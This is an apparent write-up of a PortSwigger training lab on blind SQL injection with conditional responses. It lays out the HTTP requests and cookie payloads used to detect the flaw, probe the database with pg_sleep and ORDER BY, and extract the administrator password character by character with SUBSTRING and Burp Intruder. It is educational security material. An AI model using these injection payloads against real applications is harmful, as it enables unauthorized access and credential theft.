 # [Lab: Blind SQL injection with conditional responses](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses)

## Lab

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

## Solutions

1. Detect SQLi:

    ```http
    GET / HTTP/1.1
    Host: 0a31007304d9b48dc0f0bd4300b100fc.web-security-academy.net
    Cookie: TrackingId=gp2SbVXwwSsrKYXK; session=BBxmO5MSN0jzahpcW7vVB8cymKgGqKGj
    ```

    => welcome response

    ```http
    GET / HTTP/1.1
    Host: 0a31007304d9b48dc0f0bd4300b100fc.web-security-academy.net
    Cookie: TrackingId=gp2SbVXwwSsrKYXK'; session=BBxmO5MSN0jzahpcW7vVB8cymKgGqKGj
    ```

    => There is no welcome in response

    ```http
    GET / HTTP/1.1
    Host: 0a31007304d9b48dc0f0bd4300b100fc.web-security-academy.net
    Cookie: TrackingId=gp2SbVXwwSsrKYXK'+AND+'1'%3d'1'--; session=BBxmO5MSN0jzahpcW7vVB8cymKgGqKGj
    ```

    => welcome response

    ```http
    GET / HTTP/1.1
    Host: 0a31007304d9b48dc0f0bd4300b100fc.web-security-academy.net
    Cookie: TrackingId=gp2SbVXwwSsrKYXK'+AND+'1'%3d'2'--; session=BBxmO5MSN0jzahpcW7vVB8cymKgGqKGj
    ```

    => There is no welcome in response

2. Check version: `TrackingId=1wURfC7i7InFbVKD'%3b+SELECT+'a'+FROM+pg_sleep(10)+--;`

3. Determining the number of columns using burp's intruder:
    - positions: `TrackingId=gp2SbVXwwSsrKYXK'+ORDER+BY+§§--;`
    - payloads: 1 -> 10
    - result: 1

4. Determine the length of admin password using burp's intruder:

    - positions: `TrackingId=XJqlAELi1rQJ6nVY'+AND+'1'%3d'2'UNION+SELECT+username+FROM+users+WHERE+username%3d'administrator'+AND+LENGTH(password)=§§--;`
    - payloads: 1 -> 30
    - result: 20

5. Determine the password: using SUBSTRING and burp's intruder.

    - attack mode: Cluster bomb
    - positions:

        ```http
        GET / HTTP/1.1
        Host: 0a5600bf03f79d08c0d9bee70045003c.web-security-academy.net
        Cookie: TrackingId=XJqlAELi1rQJ6nVY'+AND+'1'%3d'2'UNION+SELECT+username+FROM+users+WHERE+username%3d'administrator'+AND+SUBSTRING(password,§§,1)='§§'--;
        ```

    - Payloads:
        - Set 1: 1->20
        - Set 2: a->z, A->Z, 1->9
    - result:

        ![password.png](./../img/lab-11-password.png)

6. Login to admin account => Lab Solved
